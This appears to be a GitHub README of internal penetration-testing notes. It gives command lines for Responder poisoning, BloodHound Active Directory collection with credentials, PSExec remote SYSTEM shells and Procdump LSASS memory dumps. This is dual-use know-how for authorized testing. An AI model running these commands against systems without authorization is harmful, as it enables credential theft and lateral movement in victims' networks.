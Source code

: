 # Internal-Testing
Notes for internal testing


# Internal Pentest Tools & Techniques

## Responder
- Analyze Mode:  
    - `sudo responder -I eth0 -A`
- Basic Mode (with fingerprinting)
    - `sudo responder -I eth0 -f -v`
- WPAD Proxy Mode (with fingerprinting):
    - `sudo responder -I eth0 -wf`
- Aggressive Mode (use caution):
    - `sudo responder -I eht0 -wrdf`
- MultiRelay
    - https://github.com/lgandx/Responder/wiki/MultiRelay

## Bloodhound
- Run the python ingestor to remotely collect "all" data
    - `python3 bloodhound.py -c ALL -u username -p password -d example.local`
- (Optional) Bloodhound comes built-in with Sharphound to collect data
    - Often gets caught by AV
- Zip all files when the pyingestor completes
    - `zip data.zip *.json`
    - Drag & drop zip file to neo4j console to populate graphs
- **Edges** & how to exploit discovered relationships
    - https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html
- Parsing Bloodhound Data via Terminal/jq - https://youtu.be/o3W4H0UfDmQ
    - Retreive all group names and descriptions
        - `cat groups.json | jq '.groups[].Properties | .name + "|" + .description'`
    - Retreive all enabled users and descriptions
        - `cat users.json | jq '.users[].Properties | select( .enabled == true) | .name + "|" + .description'`
    - Retrieve all domain controllers (by Description field - if this hasn't been filled in by the org, may be inaccurate)
        - `cat computers.json | jq '.computers[].Properties | select( .description == "Domain Controller" ) | .name + " | " + .description'`
            - The Properties key may be different based on which version of bloodhound injestor you are running (instead of 'computers' or 'users'). Run `cat [file].json | jq keys` to obtain all keys 
## Sysinternals
### PSExec
- Connect to a remote machine and open a cmd.exe shell
    - `.\PSexec64.exe -accepteula \\servername -u example.local\username -p password cmd.exe`
- If your user has local admin on the machine you are connecting to, you can run PSExec with the `-s` flag to "do this as SYSTEM"
    - `.\PSexec64.exe -accepteula \\servername -u example.local\username -p password -s cmd.exe`
### Procdump
- Run Procdump to dump process memory (usually LSASS process memory)
    - `-ma` "Write a 'Full' dump file."
    -  `.\procdump64.exe -accepteula -ma lsass.exe out.dmp`
    - If an error occurs, try adding the `-r` flag
    - `-r` "Dump using a clone."
    -  `.\procdump64.exe -accepteula -r -ma lsass.exe out.dmp`
